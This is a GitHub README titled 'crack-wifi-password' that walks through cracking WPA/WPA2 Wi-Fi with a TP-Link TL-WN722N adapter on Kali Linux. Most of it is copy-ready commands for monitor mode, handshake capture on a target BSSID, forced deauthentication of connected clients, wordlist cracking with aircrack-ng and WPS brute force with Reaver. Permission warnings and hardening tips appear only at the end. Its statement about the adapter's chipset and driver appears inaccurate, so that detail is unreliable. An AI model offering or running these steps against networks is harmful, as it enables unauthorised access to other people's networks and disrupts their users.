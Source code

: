 # crack-wifi-password
I have Created it as an assignment,Use it only for educational Purposes.

# TP-Link TL-WN722N USB Wi-Fi Adapter for Penetration Testing

## Introduction
This guide provides step-by-step instructions on using the TP-Link TL-WN722N USB Wi-Fi adapter for penetration testing, focusing on ethical hacking and security assessments.

## Prerequisites
- **TP-Link TL-WN722N USB Wi-Fi Adapter**: Ensure you have the adapter.
- **Kali Linux**: A popular Linux distribution for penetration testing.
- **Aircrack-ng Suite**: A collection of tools for auditing wireless networks.
- **Reaver**: A brute-force attack tool against Wi-Fi Protected Setup (WPS) enabled routers.

## Step-by-Step Process

### 1. Install Kali Linux
If you haven't already, download and install [Kali Linux](https://www.kali.org/) from the official website. Kali Linux comes with many pre-installed tools for penetration testing.

### 2. Install Necessary Drivers
The TP-Link TL-WN722N adapter uses the Atheros AR9287 chipset, which is supported by the `ath9k` driver in Linux.

Run the following commands in the terminal:
```bash
sudo apt update
sudo apt install firmware-atheros
```

### 3. Connect the TP-Link TL-WN722N Adapter
Plug the adapter into a USB port on your Kali Linux machine.

### 4. Verify the Adapter is Recognized
Check the adapter status:
```bash
iwconfig
```
You should see an interface like `wlan0` or `wlan1`.

### 5. Put the Adapter in Monitor Mode
Bring the interface down:
```bash
sudo ifconfig wlan0 down
```
Set the adapter to monitor mode:
```bash
sudo iwconfig wlan0 mode monitor
```
Bring the interface back up:
```bash
sudo ifconfig wlan0 up
```

### 6. Scan for Available Networks
Use `airodump-ng` to scan for networks:
```bash
sudo airodump-ng wlan0
```
This will display a list of available networks.

### 7. Capture Handshake
Focus on a specific network:
```bash
sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0
```
Replace `<BSSID>` with the target network's BSSID and `<CHANNEL>` with the channel number.

### 8. Deauthenticate Clients
Deauthenticate clients to capture the handshake:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0
```
This will deauthenticate clients connected to the target network, forcing them to reconnect and capture the handshake.

### 9. Crack the WPA/WPA2 Password
Use `aircrack-ng` to crack the password:
```bash
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
```
Replace `/path/to/wordlist.txt` with the path to your wordlist and `<BSSID>` with the target network's BSSID.

### 10. Alternative: Attack WPS (Wi-Fi Protected Setup)
Use `Reaver` to brute-force WPS:
```bash
sudo reaver -i wlan0 -b <BSSID> -vv
```
Replace `<BSSID>` with the target network's BSSID.

## Important Notes
- **Legal and Ethical Considerations**: Ensure you have explicit permission to test the network. Unauthorized access is illegal and unethical.
- **Security Measures**: Implement strong security measures such as WPA3, complex passwords, and disable WPS to protect your network.
- **Regular Updates**: Keep your tools and systems updated to ensure you have the latest security patches and features.

By following these steps, you can ethically test the security of your own Wi-Fi network and identify potential vulnerabilities. Always prioritize legal and ethical considerations in your penetration testing activities.

## Disclaimer
This guide is for educational purposes only. The author is not responsible for any misuse of this information.
